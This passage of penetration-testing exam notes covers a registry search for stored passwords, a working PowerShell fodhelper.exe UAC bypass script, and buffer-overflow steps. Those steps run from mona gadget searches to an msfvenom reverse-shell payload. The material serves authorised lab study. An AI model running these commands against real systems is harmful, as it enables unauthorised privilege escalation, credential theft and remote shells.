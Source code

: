 Check for plaintext passwords
```
reg query HKLM /f pass /t REG_SZ /s
```

### UAC Bypasses

If we land on a shell for an Administrator-group user (perhaps unlikely, but possible in the AD section of the exam), and upon checking `whoami /groups`, we see `MEDIUM INTEGRITY` or something similar, a User Account Control Bypass is required.

This is a fantastic resource for UAC - [Bypassing default UAC settings manually](https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/)

There are few methods available here, but the essence of the UAC bypass is that some Windows binaries are set to auto-elevate to High Integrity without a UAC prompt; this can be exploited to hijack the execution flow and spawn a reverse shell for example. `Fodhelper.exe` and `eventvwr.exe` are often referenced as examples of this.

```powershell
PS C:\Users\bob\Documents> .\strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
        <autoElevate>true</autoElevate>
```

Example exploit for `fodhelper.exe` UAC bypass.
```powershell
$c = "C:\Windows\System32\cmd.exe"
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $c -Force

Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

# Buffer Overflow

```bash
msf-pattern_create -l $length
msf-pattern_offset -l $length -q $EIP
```

```bash
# keep the same order of outputs
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp

# select a dll module
!mona modules

# find address of "jmp esp"
!mona find -s "\xff\xe4" -m "libspp.dll"

# find "pop,pop,ret" for SEH
!mona seh -m "$module"

# generate Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shikata_ga_nai -b "\x00"
```
Set logging directory for mona:

